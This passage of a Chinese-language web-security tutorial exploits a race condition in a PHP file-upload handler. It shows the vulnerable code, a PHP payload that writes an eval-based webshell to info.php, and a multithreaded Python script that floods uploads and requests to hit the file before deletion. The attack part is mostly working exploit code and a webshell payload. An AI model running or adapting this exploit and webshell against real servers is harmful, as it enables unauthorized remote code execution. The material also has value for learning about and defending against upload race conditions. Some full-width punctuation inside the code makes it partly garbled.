 ```php
    }//先移动到网站目录
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success.file path is: ".$newfile."\n<br />";

if($_FILES['file']['error']>0){
    unlink($newfile);//删除
    die("Upload file error: ");
}
$ext = array_pop(explode("."，$_FILES['file']['name']));
if(!in_array($ext，$allowtype)){
    unlink($newfile);//删除
    die("error:upload the file type is not allowed，delete the file！");
}
?>
```
#### 首先将文件上传到服务器，然后检测文件后缀名，如果不符合条件，就删掉，我们的利用思路是这样的，首先上传一个 php 文件，内容为：
```php
<?php fputs(fopen("./info.php"， "w")， '<?php @eval($_POST["drops"]) ?>'); ?>
```
#### 当然这个文件会被立马删掉，所以我们使用多线程并发的访问上传的文件，总会有一次在上传文件到删除文件这个时间段内访问到上传的 php 文件，一旦我们成功访问到了上传的文件，那么它就会向服务器写一个 shell。利用代码如下：
```python

import os
import requests
import threading

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.url = "http://127.0.0.1:8080/upload/shell0.php"
        self.uploadUrl = "http://127.0.0.1:8080/upload/copy.php"

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print("[*]create file info.php success")
            os._exit(0)

    def _upload(self):
        print("upload file.....")
        file = {"file":open("shell0.php"，"r")}
        requests.post(self.uploadUrl， files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()
            for i in range(10):
                self._upload()
                self._get()

if __name__ == "__main__":
    threads = 20

    for i in range(threads):
        t = RaceCondition()
        t.start()
```